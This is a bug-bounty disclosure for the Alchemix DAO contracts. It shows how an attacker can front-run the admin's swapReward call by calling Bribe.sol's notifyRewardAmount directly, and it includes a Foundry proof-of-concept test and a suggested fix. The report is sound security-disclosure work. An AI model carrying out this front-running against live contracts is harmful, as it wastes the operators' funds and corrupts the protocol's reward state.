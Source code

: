 # 30613 - \[SC - Medium] malicious user can front run any call to the sw...

Submitted on May 2nd 2024 at 03:23:54 UTC by @zeroK for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30613

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:

* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

the function `voter.sol#swapReward` is meant to be used to update the reward token from old one to new one, this function is only callable by the admin and it make calls to the `Bribe.sol#swapOutRewardToken` which it updates the `isReward` from false to true for the newToken, and it set the old token index to the newToken address, however an attacker can front run the owner and cause Griefing plus preventing from setting the correct index to the newToken address, this issue can make loss to the owner by front run his/her TX and cause loss of gas + making the rewards length longer each time the attacker front run the owner call and preventing setting the correct index to the new token that the owner decide to set.

## Vulnerability Details

to call the swapReward function the owner first need to call the whitelist function to add the new token to whitelist, if not then the call to the swapReward is impossible because of the checks for the whitelist token the function `swapReward` make call to the swapOutRewardToken with the below inputs:

```solidity
 function swapReward(address gaugeAddress, uint256 tokenIndex, address oldToken, address newToken) external {
        require(msg.sender == admin, "only admin can swap reward tokens");
        IBribe(bribes[gaugeAddress]).swapOutRewardToken(tokenIndex, oldToken, newToken);
    }
```

as it shown the tokenIndex is set to update the token index when call made to the `swapOutRewardToken`:

```solidity
 function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
        require(msg.sender == voter, "Only voter can execute");
        require(IVoter(voter).isWhitelisted(newToken), "New token must be whitelisted");
        require(rewards[oldTokenIndex] == oldToken, "Old token mismatch");

        // Check that the newToken does not already exist in the rewards array
        for (uint256 i = 0; i < rewards.length; i++) {
            require(rewards[i] != newToken, "New token already exists");
        }

        isReward[oldToken] = false;
        isReward[newToken] = true;

        // Since we've now ensured the new token doesn't exist, we can safely update
        rewards[oldTokenIndex] = newToken; // set the old index to the new token
```

however, malicious user can front run the owner call to the `swapReward` the moment that he/she realized that a new token added to the whitelist lists by calling the `notifyRewardAmount` directly from the bribe.sol contract, while this contract is external and allow anyone call it directly the malicious user can call it with the new whitelisted token address before the admin call and the notifyRewardAmount function will not set the correct index to the new token when call made to the `_addRewardToken`(it did not set index to it) and increase the `rewards` list :

```solidity

function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");
        _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }

function _addRewardToken(address token) internal {
        if (!isReward[token] && token != address(0)) {
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
            require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

            isReward[token] = true;
            rewards.push(token); // if the old index is 5 then we give the new token index 6 not 5, push increase the index
        }
    }
```

according to our calculation the amount of gas that the admin will loss according to this case is more than the amount that the malicious user need to front run the admin with tiny \`amount.

## Impact Details

malicious user can front run admin call to the `swapReward` and cause loss of gas to the admin + setting incorrect index to the new token that get added

## Recommend

we recommend to prevent any direct call to the `notifyRewardAmount` function in the bribe.sol and adding `require(msg.sender == voter)` to prevent this case which leads to Griefing.

## Proof of Concept

run the test file below in src/test

```solidity
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

import "lib/forge-std/src/console2.sol";
import "lib/forge-std/src/Test.sol";
import "./utils/DSTestPlus.sol";

import "src/VotingEscrow.sol";
import "src/AlchemixGovernor.sol";
import "src/FluxToken.sol";
import "src/Voter.sol";
import "src/Minter.sol";
import "src/RewardPoolManager.sol";
import "src/RewardsDistributor.sol";
import "src/RevenueHandler.sol";
import "src/Bribe.sol";
import "src/gauges/CurveGauge.sol";
import "src/gauges/PassthroughGauge.sol";
import "src/governance/TimelockExecutor.sol";
import "src/factories/BribeFactory.sol";
import "src/factories/GaugeFactory.sol";

import "src/interfaces/aura/MockCurveGaugeFactory.sol";
import "src/interfaces/IAlchemixToken.sol";
import "src/interfaces/IMinter.sol";
import "src/interfaces/balancer/WeightedPool2TokensFactory.sol";
import "src/interfaces/balancer/WeightedPoolUserData.sol";
import "src/interfaces/balancer/IVault.sol";
import "src/interfaces/IWETH9.sol";
import "src/gauges/StakingRewards.sol";
import "src/interfaces/aura/IRewardPool4626.sol";

contract testing is Test, BaseTest {
    uint256 public fakeToken;
    address public alice;

    IERC20 public usdd = IERC20(0x0C10bF8FcB7Bf5412187A595ab97a3609160b5c6);
    function setUp() public {
        setupContracts(block.timestamp);

        alice = vm.addr(1);
        deal(address(usdd), address(alice), 1 ether);
    }

    function test_attack() public {
        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.startPrank(address(timelockExecutor));

        voter.whitelist(address(usdd));
        vm.startPrank(alice);
        usdd.approve(address(voter), type(uint256).max);
        usdd.approve(address(bribeAddress), type(uint256).max);

        IBribe(bribeAddress).notifyRewardAmount(address(usdd), 1000000000000000000);

        hevm.startPrank(address(timelockExecutor));
        // vm.expectRevert();
        voter.swapReward(address(sushiGauge), 0, dai, address(usdd));
    }
}


```
